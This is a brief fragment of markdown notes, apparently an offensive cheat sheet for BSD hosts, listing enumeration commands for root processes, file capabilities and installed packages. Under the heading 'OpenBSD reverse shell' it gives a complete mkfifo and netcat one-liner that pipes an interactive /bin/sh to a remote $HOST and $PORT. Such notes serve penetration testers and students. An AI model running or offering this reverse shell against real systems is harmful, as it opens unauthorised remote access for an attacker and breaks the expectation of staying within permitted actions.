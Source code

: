 	- `ps aux | grep '^root'`
- *capabilities*
	- `getcap -r / 2>/dev/null`
- installed programmes
	- `pkg info –all`
	- `pkg info –list-file <package>`
- *OpenBSD reverse shell*
	- `rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|nc $HOST $PORT >/tmp/f`